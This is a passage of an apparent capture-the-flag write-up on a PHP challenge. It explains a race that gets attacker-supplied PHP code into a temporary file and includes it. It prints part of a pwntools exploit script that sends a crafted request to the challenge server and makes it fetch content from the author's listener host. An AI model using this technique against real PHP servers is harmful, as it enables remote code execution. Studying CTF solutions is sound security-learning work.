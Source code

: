 If the `PHP_STREAM_PREFER_STDIO` has been set, it will call the `php_stream_fopen_tmpfile()` to create temporary file.

So we can create our temporary file with arbitrary content now.

Our target is obvious:

1. Using `compress.zlib://http://myserver` to upload some trash, but don't close the connection
2. Using `.well-known../files/xxxxxxxxxxx/` to list our temporary file name (xxxxxxxxxxx is directory name)
3. Using `file_get_contents` to read the temporary file with another session
4. Because the temp file doesn't contain `<?`, so it will pass the check
5. Send our php code from the previous connection
6. Include the temp file with our php code

Because we need to send php code between `file_get_contents()` and `include()`, so we should race it! (step 3 ~ step 6)

And there is another problem, we need to get the directory name in the step 1, but the connection can't be closed.

To solve this problem, we use the `$_POST['name']` to stuff the php output buffer.

Then we'll see the random directory name without closing the connection.

Exploit:

```python=
from pwn import *
import requests
import re
import threading
import time

for gg in range(100):
    
    r = remote("78.47.165.85", 8004)
    l = listen(5487)

    payload = '''POST / HTTP/1.1
Host: 78.47.165.85:8004
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.14; rv:56.0) Gecko/20100101 Firefox/56.0
Content-Length: 8098
Content-Type: application/x-www-form-urlencoded
Connection: close
Upgrade-Insecure-Requests: 1

name={}&file=compress.zlib://http://kaibro.tw:5487'''.format("a"*8050).replace("\n","\r\n")


    r.send(payload)
    r.recvuntil("your sandbox: ")
    dirname = r.recv(70)

    print("[DEBUG]:" + dirname)

    # send trash
    c = l.wait_for_connection()
    resp = '''HTTP/1.1 200 OK
Date: Sun, 29 Dec 2019 05:22:47 GMT
Server: Apache/2.4.18 (Ubuntu)
Vary: Accept-Encoding
Content-Length: 534
Content-Type: text/html; charset=UTF-8

AAA
BBB'''.replace("\n","\r\n")
    c.send(resp)
```